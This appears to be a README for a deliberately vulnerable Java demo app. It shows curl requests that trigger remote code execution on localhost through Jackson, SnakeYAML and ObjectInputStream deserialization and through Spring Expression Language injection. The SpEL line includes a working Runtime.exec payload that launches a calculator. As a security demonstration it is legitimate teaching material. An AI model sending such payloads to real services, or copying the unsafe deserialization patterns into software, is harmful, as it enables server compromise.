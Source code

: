 # Remote Code Execution Demo

## How To: Exploit vulnerabilities to perform RCE (Java 1.8.0_181 required)

# Jackson deserialization

```
curl -X POST http://localhost:8080/vulnerable/deserialize -H "Content-Type: application/json" --data-binary @jackson.json
```

# Spring Expression Language

```
curl -X POST http://localhost:8080/vulnerable/expression -H "Content-Type: text/plain" -d "T(java.lang.Runtime).getRuntime().exec('open -a Calculator')"
```

# SnakeYAML

```
curl -X POST http://localhost:8080/vulnerable/yaml -H "Content-Type: text/plain" --data-binary @snake-yaml.yaml
```

# ObjectInputStream exploit

```
curl -X POST http://localhost:8080/vulnerable/ois --data-binary @ois.bin -H "Content-Type: application/octet-stream"
```